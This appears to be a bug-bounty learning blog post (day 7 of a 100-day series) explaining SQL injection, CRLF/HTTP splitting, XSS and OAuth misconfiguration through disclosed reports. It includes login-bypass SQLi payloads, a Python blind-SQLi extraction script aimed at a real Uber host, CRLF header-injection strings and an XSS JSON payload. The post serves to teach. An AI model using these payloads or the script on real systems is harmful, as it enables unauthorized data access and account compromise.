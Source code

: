 ```yaml
---
title:  "Day 7/100 Hack and Improvement"
date: 2020-05-07
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day7/header.jpg"
---
```

There are so many vulnerabilities to talk about, but usually there is always some kind of SQL injection that will surprise some of the readers. For day 7, we'll be explaining SQL injection with its SQL sintax, where to find HTTP Splitting, explanations for some XSS writeups, and [Rajesh Ranjan](https://twitter.com/eh_rajesh) brings concepts about OAuth security. 

## SQL Injections

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_), When an attacker is allowed to insert SQL queries and get results from the backend related to the SQL database, this is known as SQL injection (SQLi). This kind of attacks are highly rewarded depending on the capabilities of the attack, this is because of the devastating effects that the attack can have, for example, the attacker can create his own admin user in the database. 

### SQL Databases

Databases store information in records and fields contained in a collection of tables. Tables contain one or more columns, and a row in a table represents a record in the database. Users usually rely in this databases due to its usefulness to delete, create, read, and update the records in the database. The queries that the attacker might send, it can depend on different SQL databases such as MySQL, PostgreSQL, MSSQL, and so on. This is a common example of a MySQL query which will show the table for records where the ID column is equal to 1. 
```SQL
SELECT name FROM users WHERE id = 1;
```

The payload that can be useful in the attack strongly depends on the backend and how the input is being sanitize, as an example we have the following payload in a login page. 
```SQL
admin' OR 1='1
```

The payload from above basically is opening with a single quote ```(')``` which after the value ```admin``` adds the SQL code which is ```or 1='1``` to end the query. The operator ```or``` will modify the ```where``` clause for search records that matches with the equation ```1='1```. In the case if the input is being sanitize properly, the following payload will be useful. 
```SQL
;--, admin' OR 1='1;--
```
This payload accomplishes two tasks such, the semicolon ```(;)``` ends the SQL statement, and the two dashes ```(--)``` tell the database that the remainder of the text is a comment. 

### Write Ups and Explanations

[**UBER BLIND SQLI**](https://hackerone.com/reports/150156/)

The attacker found the vulnerability by clicking the "unsubscribe" button. This was the payload used by the attacker:
```
# URL decode in Base 64
http://sctrack.email.uber.com.cn/track/unsubscribe.do?p={"user_id": "5755 and sleep(12)=1", "receiver": "orange@mymail"}
# URl encoded in Base 64
http://sctrack.email.uber.com.cn/track/unsubscribe.do?p=eyJ1c2VyX2lkIjogIjU3NTUgYW5kIHNsZWVwKDEyKT0xIiwgInJlY2VpdmVyIjogIm9yYW5nZUBteW1haWwifQ==
```

As you can see the payload ```"5755 and sleep(12)=1"``` will cause the server to load after 12 seconds. Then, the attacker wrote the following python script which will cause to dump the name and user name.
```python
import json
import string
import requests
from urllib import quote
from base64 import b64encode

base = string.digits + '_-@.'
payload = {"user_id": 5755, "receiver": "blog.orange.tw"}

for l in range(0, 30):
    for i in 'i'+base:
        payload['user_id'] = "5755 and mid(user(),%d,1)='%c'#"%(l+1, i)
        new_payload = json.dumps(payload)
        new_payload = b64encode(new_payload)
        r = requests.get('http://sctrack.email.uber.com.cn/track/unsubscribe.do?p='+quote(new_payload))

        if len(r.content)>0:
            print i,
            break
```

The report from above showed a blind SQLi where the attacker was able to see if it was vulnerable at first by putting the payload ```"5755 and sleep(12)=1"```. Remember to keep an eye on HTTP requests that have encoded parameters. Remember that most of the job can be done with [sqlmap](http://sqlmap.org/)

## Where to Find HTTP Splitting ?

As [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_) mention before in [day 4](https://coffeejunkie.me/day4/) talking about CRLF vulnerabilites, there are certain places where an attacker is likely to find these kind of vulnerabilities. I really wanted to expand the scope of this vulnerability because it seemed pretty interesting to me. 

### Different Ways to exploit CRLF attacks

Looking on different resources on GitHub, the amazing reasearcher [EdOverflow](https://twitter.com/EdOverflow) has a cheatsheet for different kind of attacks, this is the [cheat sheet for CRLF injection](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md). As a "takeaway" from here, I'd like to name the **CRLF chained with Open Redirect server misconfiguration** with the following payloads. 
```
//www.google.com/%2f%2e%2e%0d%0aheader:header
/www.google.com/%2e%2e%2f%0d%0aheader:header
/google.com/%2F..%0d%0aheader:header
```

### XSS Write Ups and Explanations

In a path withe purpose to expand knowledge and obtain a good understanding of a vulnerability, besides practice, write ups are a good part of the learning path because the are "real world" examples of actual vulnerabilities. In this case I'd like to expand more in XSS where the following writeups will bring a better understanding on the attack and vulnerability. 

[**GOOGLE TAG MANAGER STORED XSS**](https://blog.it-securityguard.com/bugbounty-the-5000-google-xss/)

So, the researcher was in charge to test different fields in a Google service called tagmanager which was used for SEO operations. As the attacker comment, most of the fields were protected against special characters, therefore, it was not being useful. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day7/mac.png" alt="nmap scan">

Then, the researcher saw the chance to upload a set of definitions in JSON files. Therefore, the attacker proceed to upload a JSON file with the following content.
```json
      "data": {
        "name": "#“><img src=/ onerror=alert(3)>",
        "type": "AUTO_EVENT_VAR",
        "autoEventVarMacro": {
          "varType": "HISTORY_NEW_URL_FRAGMENT"
        }

```
After the file was uploaded, the payload was executed. This is the following video step by step of the exploitation. 

[![Source](http://img.youtube.com/vi/TnZ7unBHWLQ/0.jpg)](https://www.youtube.com/watch?v=TnZ7unBHWLQ&feature=emb_title "Source")

## What is OAuth

[Rajesh Ranjan](https://twitter.com/eh_rajesh) bring today good information related to OAuth which is an open-standard authorization protocol or framework that provides applications the ability for “secure designated access.” For example, you can tell Facebook that it’s OK for ESPN.com to access your profile or post updates to your timeline without having to give ESPN your Facebook password. This minimizes risk in a major way: In the event ESPN suffers a breach, your Facebook password remains safe.

### Writeups about Oauth

A bigshoutout to [Gaurav Narwani](https://twitter.com/gauravnarwani97) for his amazing blog which gave me a better understanding of Oauth, do checkout the blog [here](https://gauravnarwani.com/oauth-2-0-security/#respond).

### Oauth miscounfiguration to account takeover

Sometime, open redirect and misconfigured Oauth can lead to account takeover vulnerability. There are few blogs about the same

- [Misconfigured OAuth to Account Takeover](https://gauravnarwani.com/misconfigured-oauth-to-account-takeover/)

- [Case Study OAuth Misconfigureation Leads To Account Takeover](https://medium.com/@0xgaurang/case-study-oauth-misconfiguration-leads-to-account-takeover-d3621fe8308b)

### Hackerone Reports

1. Here is a report in which, due to an open redirect, attacker was able to steal the oauth token of victim

https://hackerone.com/reports/541701

https://hackerone.com/reports/314814

3. Here is the another report, in which attacker was able to steal the oauth token of victim due to the open redirect

https://hackerone.com/reports/665651

## Conclusion

SQL Injection, HTTP Splitting attacks, and OAuth misconfigurations can lead to further attacks which can compromise users in a extend variety of forms. 